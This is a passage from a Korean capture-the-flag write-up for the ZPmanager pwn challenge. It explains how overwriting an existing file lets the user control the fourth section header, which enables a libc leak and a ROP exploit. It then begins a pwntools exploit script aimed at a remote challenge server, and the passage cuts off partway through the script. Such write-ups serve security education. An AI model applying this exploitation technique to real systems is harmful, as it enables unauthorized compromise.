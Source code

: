 ![Untitled](FIESTA%202022%200e7e274a7bc24bc39ae05e5b09104b71/Untitled%202.png)

주어진 바이너리 파일을 보면 4개의 섹션으로 구성된다는 것을 알 수 있다.

각 섹션 헤더에는 섹션의 크기, 오프셋이 저장된다. 다음으로 섹션 헤더 이후에는 각 섹션의 데이터가 저장된다.

ZPmanager를 직접 실행해서 make를 해보면 알겠지만, 3개의 섹션만 이용해서 파일을 생성한다는 것을 알 수 있다. 추가로 기존에 있는 파일을 make하면 기존 파일에 덮어쓰는 방식으로 저장된다.

여기서 취약점이 발생하는데, make를 하는 과정에서 기존 파일을 overwrite하면 입력한 IP 데이터가 4번째 섹션 헤더 영역에 저장된다.

즉, 4번째 섹션 헤더를 제어할 수 있다는 의미이고 이를 이용해서 libc_base leak과 ROP exploit을 수행할 수 있다.

```python
from pwn import *
import warnings

warnings.filterwarnings('ignore')

#context.log_level='debug'

p = remote('43.202.50.223', 5333)
#p = process('./ZPmanager', env = {'LD_PRELOAD':'./libc.so.6'})
e = ELF('./ZPmanager')
libc = ELF('./libc.so.6')

def select_list(num):
  p.sendlineafter('> ', 'list')
  p.sendlineafter('> ', str(num))

def make(ip, port, hash):
  p.sendlineafter('> ', 'make')
  p.sendlineafter(': ', ip)
  p.sendlineafter(': ', port)
```